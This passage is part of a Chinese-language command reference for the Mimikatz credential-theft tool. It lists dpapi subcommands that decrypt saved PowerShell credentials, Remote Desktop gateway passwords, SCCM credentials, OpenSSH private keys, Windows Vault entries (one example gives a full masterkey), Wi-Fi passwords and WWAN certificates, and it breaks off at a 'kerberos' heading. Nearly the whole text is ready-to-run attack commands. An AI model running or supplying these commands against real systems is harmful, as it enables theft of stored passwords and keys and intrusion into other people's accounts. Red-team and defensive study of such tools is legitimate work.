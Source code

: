 mimikatz # dpapi::protect /data:"Hello Mimikatz" /out:dpapi_blob.txt  #输出到文件dpapi_blob.txt
```

## ps
解密PowerShell凭证（PSCredentials或SecureString）。

```
mimikatz # dpapi::ps /in:ps_cred.xml /unprotect
```

## rdg

解密远程桌面网关保存的密码
```
mimikatz # dpapi::rdg /in:test.rdg /unprotect
```

## sccm

用来解密保存的SCCM凭证

```
mimikatz # dpapi::sccm  /unprotect
```


## ssh

提取OpenSSH私钥

```
mimikatz # dpapi::ssh /unprotect
```

## vault

从凭证库中解密DPAPI金库凭证

```
mimikatz # dpapi::vault /cred:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\21CD6FA9B5E4C7D1D04AE0182DD7F440F54E02ED.vcrd" /policy:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\Policy.vpol" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
```

## wifi

解密保存的Wi-Fi密码

```
mimikatz # dpapi::wifi /in:"C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{F4257B8E-3599-4A6F-AEA2-B3B7646ECA80}\{25F4C906-099A-4871-826D-8A604C132954}.xml" /unprotect
```

## wwan

解密Wwan的证书

```
mimikatz# dpapi::wwan /in:"C:\ProgramData\Microsoft\Wlansvc\Profiles{interface guid}\*.xml" /unprotect
```



# kerberos
```